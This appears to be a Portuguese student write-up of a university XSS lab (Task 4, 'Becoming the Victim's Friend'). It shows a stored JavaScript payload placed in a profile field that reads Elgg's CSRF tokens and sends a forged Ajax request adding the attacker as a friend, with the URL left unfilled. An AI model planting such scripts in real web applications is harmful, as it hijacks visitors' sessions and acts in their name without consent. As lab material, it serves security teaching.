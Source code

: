 
### Task 4: Becoming the Victim’s Friend

Para criar o nosso HTTP GET request para "adicionar amigos", entramos na conta da Alice e adicionamos o Sammy.

Na foto em baixo conseguimos ver aquele amigo tem o valor de _59_.

<img src="images/task1.6.png" width="600" height="400">

Adicionamos o seguinte código à secção "About me" do Samy:

```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl=...; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```
